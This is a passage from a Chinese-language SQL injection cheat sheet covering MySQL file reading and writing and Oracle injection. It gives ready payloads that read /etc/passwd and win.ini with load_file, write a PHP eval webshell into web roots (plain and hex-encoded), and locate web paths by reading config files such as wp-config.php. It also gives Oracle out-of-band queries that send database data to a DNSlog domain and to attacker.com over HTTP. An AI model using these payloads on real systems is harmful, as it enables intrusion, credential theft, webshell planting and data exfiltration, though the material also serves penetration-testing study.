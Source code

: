 *   **文件读写 (需要 `FILE` 权限):**
    *   **读取文件:**
        ```sql
        ' UNION SELECT load_file('/etc/passwd') --+  -- Linux
        ' UNION SELECT load_file('C:/Windows/win.ini') --+ -- Windows
        ```
        *   受 `secure_file_priv` 全局变量限制:
            *   `NULL`: 禁止任何 `load_file`, `outfile`, `dumpfile` 操作。
            *   `""` (空字符串): 无限制 (不安全)。
            *   `/path/to/dir/`: 只允许在指定目录下读写。
            *   可以通过 `SELECT @@secure_file_priv;` 查看当前设置。
    *   **写入WebShell:**
        ```sql
        -- 使用 INTO OUTFILE (会在末尾加换行, 适合文本文件)
        ' UNION SELECT "<?php @eval($_POST['cmd']);?>" INTO OUTFILE '/var/www/html/shell.php' --+
        -- 使用 INTO DUMPFILE (写入原始二进制数据, 适合写小文件或二进制文件)
        ' UNION SELECT 0x3C3F70687020406576616C28245F504F53545B27636D64275D293B3F3E INTO DUMPFILE 'C:/xampp/htdocs/shell.php' --+ (Hex编码的PHP一句话)
        ```
        *   需要知道Web服务器的绝对路径。
        *   MySQL进程运行的用户需要对目标目录有写入权限。
        *   受 `secure_file_priv` 限制。
*   **查找Web路径方法:**
    *   利用应用程序报错信息。
    *   利用phpinfo()等探针页面。
    *   读取常见配置文件 (需 `load_file` 权限):
        *   Apache: `httpd.conf`, `apache2.conf`, `.htaccess`
        *   Nginx: `nginx.conf`, `sites-available/default`
        *   PHP: `php.ini` (查找 `doc_root`)
        *   Web应用自身配置文件 (如 `wp-config.php`)
    *   暴力猜解常见路径 (`/var/www/html`, `/usr/share/nginx/html`, `C:/inetpub/wwwroot`, `C:/xampp/htdocs`)。
    *   利用报错注入或盲注读取配置文件内容。

#### Oracle数据库注入

*   **特点:** 语法与其他数据库差异较大。有强大的内置包 (Packages) 可用于各种操作，包括网络访问 (`UTL_HTTP`, `UTL_TCP`, `UTL_INADDR`, `UTL_DNS`) 和文件操作 (`UTL_FILE`)。信息获取通常通过 `DUAL` 表和数据字典视图 (`ALL_TABLES`, `ALL_TAB_COLUMNS`, `V$VERSION`等)。
*   **信息获取:**
    *   版本: `SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';`
    *   当前用户: `SELECT user FROM dual;`
    *   所有用户: `SELECT username FROM all_users;`
    *   所有表: `SELECT table_name FROM all_tables;`
    *   指定表列名: `SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE_NAME_IN_UPPERCASE';` (注意Oracle默认对象名为大写)
*   **OOB (带外通道) 利用:** (需要相应包的执行权限)
    *   DNSLog: `SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT user FROM dual)||'.your.dnslog.domain') FROM dual;`
    *   HTTP 请求: `SELECT UTL_HTTP.REQUEST('http://attacker.com/?data='||(SELECT user FROM dual)) FROM dual;`
    *   文件读写: 需要配置 `UTL_FILE_DIR` 参数并拥有 `UTL_FILE` 包权限。
